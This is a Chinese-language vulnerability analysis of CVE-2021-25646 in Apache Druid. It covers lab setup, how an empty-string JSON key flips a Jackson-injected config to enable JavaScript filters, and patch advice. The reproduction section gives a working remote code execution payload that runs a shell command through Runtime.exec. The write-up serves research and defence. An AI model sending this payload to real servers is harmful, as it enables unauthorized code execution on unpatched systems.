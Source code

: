 - [CVE-2021-25646 Apache Druid 远程代码执行](#cve-2021-25646-apache-druid-远程代码执行)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [JavaScript functions](#javascript-functions)
    - [JavaScript Filter](#javascript-filter)
      - [@JsonProperty](#jsonproperty)
  - [复现](#复现)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2021-25646 Apache Druid 远程代码执行
## 影响版本
Apache Druid < 0.20.1
## 环境搭建
https://archive.apache.org/dist/druid/0.20.0/apache-druid-0.20.0-bin.tar.gz

修改`apache-druid-0.20.0-bin/apache-druid-0.20.0/conf/druid/single-server/nano-quickstart/coordinator-overlord/jvm.config`，添加IDEA DEBUG参数。

进入bin目录执行`./start-nano-quickstart`
## 原理分析
### JavaScript functions
根据官方文档,druid支持动态执行JavaScript函数来拓展功能,但其默认不启用,需要手动开启Druid.javascript.enabled = true。
![](1.png)
其中就支持在Filter中使用,用来支持在查询数据的时候根据过滤器对数据进行过滤。
### JavaScript Filter
JavaScript Filter即允许在查询时动态执行JS函数,默认不开启官方文档如下,:
![](2.png)  

在`src/main/java/org/apache/druid/query/filter/JavaScriptDimFilter`中,其构造函数如下
```java
  @JsonCreator
  public JavaScriptDimFilter(
      @JsonProperty("dimension") String dimension,
      @JsonProperty("function") String function,
      @JsonProperty("extractionFn") @Nullable ExtractionFn extractionFn,
      @JsonProperty("filterTuning") @Nullable FilterTuning filterTuning,
      @JacksonInject JavaScriptConfig config
  )
```
#### @JsonProperty
@JsonProperty注解主要用于实体类的属性上,作用可以简单的理解为在反序列化的时候给属性重命名。
@JacksonInject：它的功能就是在反序列化的时候将没有的字段设置为我们设置好的默认值。

在构造函数中其中的config参数即为JavaScript功能是否开启,其从配置文件中取得默认值为False。而且其前面使用的是JacksonInject注解,而不是JsonProperty注解，即该参数本并不能从请求的JSON数据中进行设置。

Durid使用的JSON解析工具为JackJON,而在JackSON中，当注解@JsonCreator修饰方法时，方法的所有参数都会被解析成CreatorProterty类型，如果属性没有被@JsonProperty修饰，就会创建一个name为""的CreatorProterty，Jackson会将用户输入的key为""的value赋值给该属性。
```java
    public static PropertyName construct(String simpleName, String ns)
    {
        if (simpleName == null) {
            simpleName = "";
        }
        if (ns == null && simpleName.length() == 0) {
            return USE_DEFAULT;
        }
        return new PropertyName(InternCache.instance.intern(simpleName), ns);
    }
```
而config参数即没有被@JsonProperty修饰,导致Jackson默认为其创建了一个name为""的CreatorProterty,从而导致在请求时通过传入一个键为“”的JSON键值即可修改config参数配置来开启JavaScript Filter,进而执行JS函数RCE。
## 复现
修改filter参数如下
```json
"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('touch /tmp/poctest')}",
"dimension":"111",    "":{
    "enabled":"true"
    }
    }
```
![](3.png)
![](4.png)
## 补丁
升级到druid-0.20.1及以上版本。https://druid.apache.org/downloads.html  

忽略了对"空字符串的解析。
![](5.png)
## 参考
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-25646